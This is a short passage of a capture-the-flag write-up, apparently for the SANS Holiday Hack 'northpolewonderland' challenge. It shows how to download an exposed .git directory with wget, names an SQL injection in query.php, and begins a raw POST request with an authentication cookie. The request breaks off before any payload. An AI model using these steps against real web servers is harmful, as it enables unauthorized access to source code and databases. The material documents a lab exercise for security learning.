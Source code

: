 ![Sprusage MP3](screens/sprusage-mp3.png)

### git repo

Somebody left a git repo on the web server. You cannot directly clone it, but you can get it as follows:
```
wget -r --no-parent https://analytics.northpolewonderland.com/.git/
cd analytics.northpolewonderland.com
git checkout .
```

### post authentication exploit

With the git repo, we can analyze the source code. `query.php`, `db.php` and `sprusage.sql` are of particular interest. In the end, the code is prone to SQLi. You can retrieve the `mp3` file from the `audio` table like so.

```
POST /query.php HTTP/1.1
Host: analytics.northpolewonderland.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: de,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://analytics.northpolewonderland.com/query.php
Cookie: AUTH=82532b2136348aaa1fa7dd2243da1cc9fb13037c49259e5ed70768d4e9baa1c90b96fde8bea62881fb78b97bc4980553b14348637bec
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 164

```